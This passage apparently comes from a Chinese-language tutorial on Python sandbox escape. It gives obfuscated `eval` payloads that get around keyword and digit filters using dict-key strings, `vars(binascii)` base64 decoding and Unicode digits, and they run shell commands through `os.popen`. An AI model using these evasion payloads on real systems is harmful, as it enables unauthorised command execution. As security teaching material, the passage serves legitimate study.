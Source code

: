若出现咋办？加些无关紧要的字符

出现`=`是因为字符串不是3的倍数，`=`用来填充

## payload 3

由于`exec`生成的变量无法在函数上下文中使用，上面的payload当触发点在函数内部时会报错

`NameError: name '_bytes_from_decode_data' is not defined`

```python
CMD = '...'

def vul():
    eval(CMD)


vul()
```

`vars()`当没指定参数的时候和`locals`一样，返回局部变量

当指定参数的时候，会获取参数所在命名空间的`locals()`

可以先`import binascii` ，再利用 `vars(binascii)` 取出里面的 `a2b_base64` 从而进行 base64 解码

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2FsYycpLnJlYWQoKSAg=1))[0]))
```

## payload 4

如果把数字也ban了呢

切片里的数字好处理

- `0` -> `len([])`
- `2` -> `len(list(dict(aa=()))[len([])])`

参数里的数字用unicode绕过

可用数字列表👉https://www.fileformat.info/info/unicode/category/Nd/list.htm

```python
vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg=()))[len([])])
```

```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
```

